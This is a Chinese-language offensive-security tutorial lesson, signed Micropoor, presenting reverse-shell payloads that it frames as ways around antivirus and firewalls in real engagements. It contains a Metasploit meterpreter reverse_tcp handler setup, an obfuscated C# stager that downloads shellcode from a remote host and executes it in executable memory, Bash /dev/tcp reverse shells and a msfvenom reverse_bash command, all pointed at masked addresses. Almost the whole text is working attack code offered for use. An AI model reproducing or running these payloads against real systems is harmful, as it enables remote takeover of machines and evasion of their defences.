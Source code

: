 在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 C#，Bash

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、C#-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```

混淆：
```csharp
using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
namespace RkfCHtll { class LiNGeDokqnEH {
static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
    IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
eMcukOUqFuHbUv); 
    Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
SocketType.Stream, ProtocolType.Tcp); 
    try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
    catch { return null;}
    byte[] gJVVagJmu = new byte[4];
    fzTiwdk.Receive(gJVVagJmu, 4, 0);
    int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
    byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
    int yVcZAEmXaMszAc = 0;
    while (yVcZAEmXaMszAc < GFxHorfhzft)
    { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
    byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
    Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
    return mwxyRsYNn;}
static void hcvPkmyIZ(byte[] fPnfqu) {
    if (fPnfqu != null) {
        UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
        Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
        IntPtr xOxEPnqW = IntPtr.Zero; 
        UInt32 ooiiZLMzO = 0;
        IntPtr wxPyud = IntPtr.Zero;
        xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
        WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
static void Main(){
    byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
    hcvPkmyIZ(dCwAid); }
        [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
[DllImport("kernel32")] private static extern UInt32
WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
```

![](/img/926b5570b97743dcfdc212edb6604589.jpg)


### 2、Bash-payload
```bash
i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1
```  
![](/img/49ee03061e17179d4022d4fc02df4da6.jpg)  

```bash
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5;done
```  
![](/img/9b61ec08224188e6d2e172a47df7861a.jpg)

### 附录：
msfvenom 生成 bash
```bash
root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh
```

参数简化
项目地址：  
https://github.com/g0tmi1k/mpc  
![](/img/4b4fa44f7174bc8361028253fefead0e.jpg)

>   Micropoor
